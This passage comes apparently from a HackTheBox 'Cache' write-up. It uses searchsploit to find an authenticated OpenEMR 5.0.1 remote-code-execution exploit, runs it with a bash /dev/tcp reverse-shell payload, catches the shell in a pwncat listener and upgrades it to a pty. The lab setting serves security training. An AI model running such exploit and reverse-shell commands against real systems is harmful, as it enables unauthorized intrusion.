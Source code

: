 ## OpenEMR - RCE

With `searchsploit` I was able to see an Authenticated RCE exploit for our version:

```shell
cfx:  ~/Documents/htb/cache
→ searchsploit openemr 5.0.1
------------------------------------------------------------------------------------------------------------------------------------------------------------ ---------------------------------
 Exploit Title                                                                                                                                              |  Path
------------------------------------------------------------------------------------------------------------------------------------------------------------ ---------------------------------
[..SNIP..]

OpenEMR < 5.0.1 - (Authenticated) Remote Code Execution                                                                                                     | php/webapps/45161.py
------------------------------------------------------------------------------------------------------------------------------------------------------------ --------------------------------
```

## Shell as www-data

Going through exploit, we understand it expects username, password and the command to be executed as inputs.

```shell
cfx:  ~/Documents/htb/cache
→ python2 45161.py http://hms.htb -u openemr_admin -p xxxxxx -c 'bash -i >&/dev/tcp/10.10.14.10/8020 0>&1'
 .---.  ,---.  ,---.  .-. .-.,---.          ,---.
/ .-. ) | .-.\ | .-'  |  \| || .-'  |\    /|| .-.\
| | |(_)| |-' )| `-.  |   | || `-.  |(\  / || `-'/
| | | | | |--' | .-'  | |\  || .-'  (_)\/  ||   (
\ `-' / | |    |  `--.| | |)||  `--.| \  / || |\ \
 )---'  /(     /( __.'/(  (_)/( __.'| |\/| ||_| \)\
(_)    (__)   (__)   (__)   (__)    '-'  '-'    (__)

   ={   P R O J E C T    I N S E C U R I T Y   }=

         Twitter : @Insecurity
         Site    : insecurity.sh

[$] Authenticating with openemr_admin:xxxxxx
[$] Injecting payload

```

Getting a call back on `pwncat` listener:

```shell
cfx:  ~/Documents/htb/cache
→ pwncat -l 8020 -vv
INFO: Listening on :::8020 (family 10/IPv6, TCP)
INFO: Listening on 0.0.0.0:8020 (family 2/IPv4, TCP)
INFO: Client connected from 10.10.10.188:46344 (family 2/IPv4, TCP)
bash: cannot set terminal process group (1653): Inappropriate ioctl for device
bash: no job control in this shell
www-data@cache:/var/www/hms.htb/public_html/interface/main$ whoami
whoami
www-data
www-data@cache:/var/www/hms.htb/public_html/interface/main$ python3 -c "import pty;pty.spawn('/bin/bash')"
python3 -c "import pty;pty.spawn('/bin/bash')"
```
